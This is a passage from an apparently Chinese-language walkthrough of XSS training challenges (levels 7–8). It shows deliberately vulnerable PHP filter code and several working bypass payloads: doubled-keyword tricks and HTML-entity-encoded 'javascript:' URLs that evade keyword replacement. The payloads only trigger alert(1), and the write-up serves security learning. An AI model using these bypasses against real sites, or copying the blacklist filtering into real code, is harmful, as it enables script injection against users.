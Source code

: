 ```php+HTML
</form>
</center>';
?>
```

```shell
//重复绕过,
`"><sscriptcript>alert(1)</sscriptcript>`
`"oonnmouseover=alert(1)`
`"><a hrhrefef=javascriscriptpt:alert(1)>click</a>`
```

`Result`

![image-20200828153152250](/images/XSS/image-20200828153152250.png)

##### 挑战八

````shell
//重复测试
`"><sscriptcript>alert(1)</sscriptcript>`
````

![image-20200828153930815](/images/XSS/image-20200828153930815.png)

```php+HTML
//在上面基础上添加了大小写过滤、属性中双引号被转换成HTML实体，无法截断属性，可以使用协议绕过javascript:alert，由于script关键字被过滤，
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```

[在线实体编码](https://www.qqxiuzi.cn/bianma/zifushiti.php)

```shell
//实体编码，javascript会被替换成javasc_rpt，我们使用&#x72来代替r ,HTML字符实体转换：
`javascrip&#x74;:alert(1)`
`javascript:%61lert(1)`
`javasc&#x72;ipt:alert`1``
`javasc&#x0072;ipt:alert`1``
```
